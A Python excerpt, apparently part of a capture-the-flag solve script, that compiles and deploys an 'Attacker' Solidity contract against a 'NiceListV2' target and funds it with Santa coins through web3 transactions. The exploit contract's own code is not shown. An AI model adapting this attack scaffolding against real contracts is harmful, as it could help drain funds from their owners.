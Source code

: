 ```python

def uploadAttackerContract():
    # compile contract and upload it, returning the address for later interaction
    with open('./Attacker.sol', 'r') as file:
        attackerSource = file.read()
        attackerCompiled = compile_standard({
            "language": "Solidity",
            "sources": {
                "Attacker.sol": {
                    "content": attackerSource
                }},
            "settings": {
                "outputSelection": {
                    "*": {
                        "*":
                        ["abi", "evm.bytecode"]}
                }
            }
        }, solc_version="0.8.9")
    attackerAbi = attackerCompiled["contracts"]["Attacker.sol"]["Attacker"]["abi"]
    attackerByteCode = attackerCompiled["contracts"]["Attacker.sol"]["Attacker"]["evm"]["bytecode"]["object"]
    attackerContract = w3.eth.contract(
        abi=attackerAbi, bytecode=attackerByteCode)
    nonce = w3.eth.getTransactionCount(account)
    tx = attackerContract.constructor(niceListV2Address).buildTransaction({
        "gasPrice": w3.eth.gas_price,
        "from": account,
        "nonce": nonce
    })
    signed_tx = w3.eth.account.sign_transaction(tx, privateKey)
    tx_hash = w3.eth.send_raw_transaction(signed_tx.rawTransaction)
    tx_receipt = w3.eth.wait_for_transaction_receipt(tx_hash)
    return w3.eth.contract(address=tx_receipt.contractAddress, abi=attackerAbi)


def buySanta(amount):
    nonce = w3.eth.getTransactionCount(account)
    tx = santaCoinContract.functions.buyCoins().buildTransaction({
        "from": account,
        "gasPrice": w3.eth.gas_price,
        "nonce": nonce,
        "value": int(amount),
        "gas": 210000
    })
    signed_tx = w3.eth.account.sign_transaction(tx, privateKey)
    tx_hash = w3.eth.send_raw_transaction(signed_tx.rawTransaction)
    w3.eth.wait_for_transaction_receipt(tx_hash)


def transferSantaToContract(amount):
    nonce = w3.eth.getTransactionCount(account)
    tx = santaCoinContract.functions.transfer(attackerContract.address, amount).buildTransaction({
        "from": account,
        "nonce": nonce,
        "gasPrice": w3.eth.gas_price,
        "gas": 210000
    })
    signed_tx = w3.eth.account.sign_transaction(tx, privateKey)
    tx_hash = w3.eth.send_raw_transaction(signed_tx.rawTransaction)
    w3.eth.wait_for_transaction_receipt(tx_hash)


```